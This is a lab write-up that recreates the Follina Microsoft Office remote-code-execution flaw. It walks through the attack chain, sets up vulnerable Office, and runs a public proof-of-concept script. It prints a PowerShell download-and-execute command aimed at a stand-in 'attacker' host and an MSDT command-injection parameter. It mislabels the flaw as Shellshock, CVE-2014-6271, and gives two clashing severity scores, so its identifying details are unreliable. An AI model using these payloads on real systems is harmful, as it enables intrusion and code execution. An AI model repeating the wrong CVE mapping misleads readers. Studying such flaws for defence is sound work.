 # CVE Recreation: Shellshock (CVE-2014-6271)

### Details

CVE ID: <br>
**CVE-2014-6271**

Vulnerability Name: <br>
**Follina**

Vulnerable Software: <br>
**Microsoft Office (Word, Excel, other apps using MSHTML and MSDT) – versions prior to June 2022 patch**

Vulnerability Type: <br>
**Remote Code Execution (via MSDT protocol abuse)**

Severity: <br>
**7.8 CVSS v3 (High), 9.8 CVSS v3 (Critical)**

---

### Summary

Follina is a remote code execution vulnerability in Microsoft Office’s handling of the ms-msdt protocol. An attacker can craft a malicious Office document that references a remote HTML file, which then calls ms-msdt: with parameters causing the Microsoft Support Diagnostic Tool (MSDT) to execute arbitrary code.

This flaw is dangerous because:

- No macros are required, even security settings that block macros won’t help.
- Code execution can occur just by opening the document, and sometimes even via the preview pane in Explorer.
- It works even if Protected View is enabled, because ms-msdt calls are handled outside the usual macro execution flow.

---

### Example of the Vulnerability

1. Attacker crafts a `.docx` file containing a link to a malicious HTML payload hosted remotely.
2. The HTML contains a link using the ms-msdt protocol:
```bash
ms-msdt:/id PCWDiagnostic /skip force /param ...
```
3. When the victim opens the document, Office retrieves the HTML and automatically invokes MSDT.
4. MSDT runs a PowerShell command embedded in the parameters, for example:
```powershell
powershell.exe -Command "Invoke-WebRequest http://attacker/payload.exe -OutFile C:\Windows\Temp\payload.exe; Start-Process C:\Windows\Temp\payload.exe"
```
5. The attacker gains code execution on the victim machine without user consent.

---

### How it works

**Step 1 – Office loads external content**

The .docx file is actually a ZIP containing XML files. One of these XML files can point to an external resource (the attacker’s HTML) through a target attribute.

<br>

**Step 2 – HTML uses ms-msdt**

When Office loads the HTML, the browser-like MSHTML engine processes it. If the HTML contains a ms-msdt: link, Windows recognizes it as a registered protocol and launches the Microsoft Support Diagnostic Tool.

<br>

**Step 3 – MSDT command injection**

MSDT accepts parameters like /id and /param. The vulnerability is that these parameters can be crafted so that a command injection occurs — for example, passing something like:
```bash
/param "IT_BrowseForFile=$(Invoke-Expression('malicious PowerShell here'))"
```

This causes MSDT to run arbitrary PowerShell code.

<br>

**Step 4 – Payload execution**

The PowerShell payload can:
- Download a file (Invoke-WebRequest)
- Save it to disk
- Execute it (Start-Process)
  
This effectively gives the attacker remote code execution with the same privileges as the victim.

---

### CVE Recreation

#### Setup

- [Windows 10 (Build 19044.1288)](https://os.click/en/Windows:Windows_10:2021_LTSC:19044.1288:Enterprise:en-us:x86) and Kali Linux in VirtualBox
- Download Office2013 32-bit on the Windows 10 machine using Powershell (Administrator):
  
  `bitsadmin /TRANSFER O13DL /DOWNLOAD /PRIORITY high https://ia803209.us.archive.org/29/items/microsoft-office-2013-pro-plus-sp-1-english-32-bit_202005/Microsoft-Office-2013-Pro-Plus-SP1-English-32Bit.zip C:\office32.zip`
- Install Office2013
- On Kali Linux, install python3 and download follina.py:

  `sudo apt install python3 git`
  
  `git clone https://github.com/JohnHammond/msdt-follina`
- Run follina.py script (Examples: `python3 follina.py`, `python3 follina.py -c "notepad"`, `python3 follina.py -r 9001`. More details [here](https://github.com/JohnHammond/msdt-follina))

---

### Patch & Mitigation

- Microsoft Patch:
  
  Released in June 2022. Updates MSHTML and MSDT handling in Office so that ms-msdt calls are blocked by default.

- Workarounds (pre-patch):

  a. Backup and disable the MSDT URL protocol handler using Command Prompt as Administrator:

  ```cmd
  reg export HKEYCLASSES_ROOT\ms-msdt _filename
  reg delete HKEY_CLASSES_ROOT\ms-msdt /f
  ```

  b. Use Protected View and avoid opening files from untrusted sources.

  c. Block outbound access to attacker-controlled domains.

---

### Reflection

Follina showed that non-macro-based Office exploitation can be just as dangerous as macro-based attacks. It highlighted how little-known Windows features like MSDT can be leveraged for code execution when combined with Office’s content-fetching capabilities.

For defenders, the takeaway is that patching and attack surface reduction are critical, relying on macro blocking alone is insufficient. For attackers, Follina was a reminder that “living off the land” (using built-in tools like MSDT, PowerShell) is an effective way to evade detection.
